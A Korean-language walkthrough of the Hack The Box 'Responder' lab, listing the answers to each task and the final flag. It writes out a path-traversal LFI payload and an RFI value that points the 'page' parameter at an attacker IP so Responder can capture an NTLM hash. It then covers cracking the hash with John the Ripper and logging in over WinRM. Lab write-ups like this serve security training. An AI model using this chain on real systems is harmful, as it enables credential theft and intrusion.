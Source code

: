 # Responder

## Workstation
- Virtual Box : VMware Workstation 16 Pro
- OS : kali-linux-2022.3

## Walkthrough
* CONNECT | Connect to Starting Point VPN before starting the machine

```
sudo openvpn starting_Point_<ID>.ovpn
```

* Spawn Machine | Click to Spawn the machine

![machine](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/machine.png)

* Task 1 | When visiting the web service using the IP address, what is the domain that we are being redirected to?

> unika.htb

nmap으로 포트 검색을 한다.

![nmap](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/nmap.png)

80번 포트가 열려있으니 IP 주소를 브라우저에 검색하면 도메인 네임이 나온다.

![ip](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/ip.png)

해당 IP 주소를 사용하기 위해 hosts 파일에 입력한다.

![hosts](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/hosts.png)

* Task 2 | Which scripting language is being used on the server to generate webpages?

> php

스크립트 언어를 알기 위해 이것저것 눌러보던 중 프랑스어로 바꿔보니 index.php 파일을 사용하고 있었다.

![fr](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/fr.png)

* Task 3 | What is the name of the URL parameter which is used to load different language versions of the webpage?

> page

index.php 뒤에 `?` 파라미터 값에 page가 있다.

* Task 4 | Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

> ../../../../../../../../windows/system32/drivers/etc/hosts 

LFI란 Local File Inclusion으로 해석하면 로컬 파일 포함이란 취약점이다. 웹 서버의 파일을 노출하거나 실행할 수 있는 공격이다.

우리는 LFI 취약점으로 웹 서버의 파일을 읽어낼 것이다.

![lfi](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/lfi.png)

* Task 5 | Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

> //10.10.14.6/somefile 

RFI란 Remote File Inclusion으로 해석하면 원격 파일 포함으로 웹 응용 프로그램이 원격 파일을 실행할 수 있으며 웹쉡도 가져올 수 있다.

![rfi](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/rfi.png)

* Task 6 | What does NTLM stand for?

> New Technology Lan Manager 

* Task 7 | Which flag do we use in the Responder utility to specify the network interface?

> -I 

Responder의 사용법을 확인하면 된다.

![responder](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/responder.png)

네트워크 인터페이스의 옵션을 알았으니 `-I` 옵션과 `tun0`을 입력한다.

중간에 event 요청을 하는데 이때 Task 5의 RFI 를 이용하면 된다.

브라우저 파라미터 값에 `//<IP>/somefile`를 입력하면 된다.

![rfiip](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/rfiip.png)

그러면 smb 부분에 관리자의 해시값이 나왔다.

![smb](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/smb.png)

* Task 8 | There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

> john the ripper 

위에서 얻은 해시값을 크랙하기 위해 john the ripper 모듈을 사용한다. 해시값을 hash.txt 파일에 입력하여 크랙한다.

![john](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/john.png)

* Task 9 | What is the password for the administrator user?

> badminton

* Task 10 | We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

> 5985

* Submit Flag | Submit root flag 

> ea81b7afddd03efaa0945333ed147fac

위에서 Administrator의 패스워드 badminton을 얻었다.

위 계정을 이용해 window 계정에 접속하기 위해 윈도우 원격에서 접근하고 제어할 수 있는 win-rm 모듈을 사용한다.

![winrm](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/winrm.png)

성공적으로 윈도우 시스템에 접속되었다.

이제 flag를 찾으면 된다.

![flag](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Responder/image/flag.png)
